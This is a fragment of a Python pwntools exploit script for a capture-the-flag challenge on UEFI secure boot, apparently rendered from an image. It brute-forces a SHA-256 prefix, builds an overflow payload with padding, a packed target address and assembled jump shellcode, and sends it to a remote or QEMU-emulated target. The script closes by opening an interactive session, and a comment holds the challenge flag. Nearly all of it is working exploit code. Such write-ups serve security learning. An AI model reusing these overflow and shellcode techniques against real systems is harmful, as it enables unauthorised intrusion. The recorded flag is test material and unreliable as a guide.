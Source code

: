 ```python
        if sha256sum(payload)[0:len(check)] == check:
            payload = str(i)
            payload = payload.ljust(136, "a")
            payload += p32(target)
            return payload

def exploit():
    p.sendafter("2J", "\x1b\x5b\x32\x34\x7e"*10)
    payload = find_sha(asm("jmp $-0x17"))
    payload += "\r"

    p.sendafter("Password?", payload)
    p.interactive()

    # CTF{pl4y1ng_with_v1rt_3F1_just_4fun}

if __name__ == "__main__":
    context.terminal = ["tmux", "sp", "-h"]
    context.arch = "amd64"

    if len(sys.argv) > 1:
        p = remote("secureboot.ctfcompetition.com", 1337)
    else:
        fname = "/tmp/lala"
        os.system("cp OVMF.fd %s" % (fname))
        os.system("chmod u+w %s" % (fname))

        p = process(["qemu-system-x86_64", "-s", "-m", "128M", "-drive", "if=pflash,format=raw,file="+fname, "-drive",
                     "file=fat:rw:contents,format=raw", "-net", "none", "-nographic"], env={})

    exploit()

```